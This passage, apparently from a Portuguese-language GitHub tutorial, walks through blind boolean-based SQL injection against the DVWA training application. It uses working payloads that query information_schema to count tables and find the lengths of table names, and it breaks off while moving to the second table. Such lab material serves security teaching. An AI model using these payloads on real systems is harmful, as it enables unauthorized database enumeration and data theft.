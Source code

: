 A partir de consultas booleanas vamos buscar quantas tabelas há no banco de dados. Envie o seguinte payload no DVWA:

```
1' AND (SELECT count(*) FROM information_schema.tables WHERE table_schema=database())=1 #
```

Com esse payload estamos consultando se a contagem de tabelas no banco de dados é igual a 1. Pelo retorno você deve entender que o resultado foi falso. Então vamos modificar para ver se o resultado é igual a 2. Envie o seguinte no DVWA:

```
1' AND (SELECT count(*) FROM information_schema.tables WHERE table_schema=database())=2 #
```

Já por esse retorno que foi verdadeiro sabemos que a consulta retornou também verdadeiro, então sabemos que no banco de dados do sistema há duas tabelas. Como só conseguimos uma resposta booleana por vez, vamos descobrir o nome das tabelas, mas vai ser letra por letra.

Então, de início, vamos ver quantas letras há no nome de cada tabela. A consulta para saber a quantidade de caracteres no nome da tabela é como segue, então envie essa entrada no DVWA e analise a resposta:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1)>5 #
```

Pelo retorno positivo, vemos que o nome da primeira tabela tem mais de 5 caracteres. Vamos tentar um número mais alto:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1)>10 #
```

Agora com o retorno falso sabemos que o número de caracteres está entre 5 e 10. Vamos tentar um número intermediário, 7:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1)>7 #
```

Certo, então está entre 7 e 10. Como faltam poucas possibilidades, vamos tentar com o sinal de igual agora, assim podemos tentar se é igual a 8, 9 ou 10:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1)=9 #
```

Pronto, encontramos que a primeira tabela tem 9 caracteres! Vamos tentar a segunda agora, basta seguir o mesmo raciocínio mas utilizando a cláusula `OFFSET` para lidarmos com a segunda entrada do retorno da consulta.

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1)>5 #
```
